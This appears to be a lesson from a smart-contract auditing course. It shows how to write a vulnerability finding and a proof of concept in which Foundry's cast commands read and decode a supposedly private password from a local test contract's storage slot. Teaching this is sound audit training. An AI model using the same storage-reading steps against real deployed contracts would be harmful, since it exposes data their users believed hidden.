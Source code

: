 # Writing an amazing finding: Proof of code
- ***Writing a proof of code to indisputably prove the vulnerabilities we've found!***

### The report so far:

### \[S-#] Storing the password on-chain makes it visible to anyone and no longer private

**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.

I show one such method of reading any data off chain below.

**Impact:** Anyone is able to read the private password, severely breaking the functionality of the protocol.

**Proof of Concept:**

**Recommended Mitigation:**

### Proof of Code/Concept
- Our report is looking great, but the next section, `Proof of Code/Concept`, is imperative. Let's go over how we programmatically prove the claim we're making - that anyone can read the protocol's stored password.
- First we need a local chain running.

```bash
anvil
```

>> Note: Most PoC's won't require a local blockchain

- Next we need to deploy our protocol, fortunately, PasswordStore has a `make` command set up for us. Note that their deploy script is setting the password `myPassword` in the process. Open a new terminal and run the following.

```bash
make deploy
```

- Foundry allows us to check the storage of a deployed contract with a very simple `cast` command. For this we'll need to recall to which storage slot the `s_password` variable is assigned.
- With this consideration we can run the command `cast storage <address> <storageSlot>` like this (_your address may be different_).

```bash
cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 1
```

- We should receive an output similar to this:
```Solidity
`0x6d7950617373776f726400000000000000000000000000000000000000000014`
```

- This is the bytes form of the data at `storage slot 1`. By using another convenient Foundry command we can now decode this data.
```bash
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

- Our output then becomes:
```js
myPassword
```

- And we've done it. In a few quick commands we've shown that the data our client is expecting to keep hidden on chain is accessible to anyone. Let's add these steps as proof to our report. Things are getting long, so I've collapsed the report examples going forward!

<details closed>
<summary>Finding Report</summary>
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private
:br
:br
**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.
:br
:br
I show one such method of reading any data off chain below.
:br
:br
**Impact:** Anyone is able to read the private password, severely breaking the functionality of the protocol.
:br
:br
**Proof of Concept:**The below test case shows how anyone could read the password directly from the blockchain. We use foundry's cast tool to read directly from the storage of the contract, without being the owner.

- Create a locally running chain
```solidity
make anvil
```

- Deploy the contract to the chain

```Solidity
make deploy
```

Run the storage tool

We use 1 because that's the storage slot of s\_password in the contract.

```Solidity
cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545
```

You'll get an output that looks like this:

```Solidity
0x6d7950617373776f726400000000000000000000000000000000000000000014
```

You can then parse that hex to a string with:

```Solidity
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

And get an output of:

```Solidity
myPassword
```

:br
**Recommended Mitigation:**

</details>

### Wrap Up
- We've one more section in our report to fill out, the `Recommended Mitigations`. This is where we get a chance to illustrate our experience and bring value to the process by offering our expert advice on how rectify the problems faced by this vulnerability.
- Let's do it.
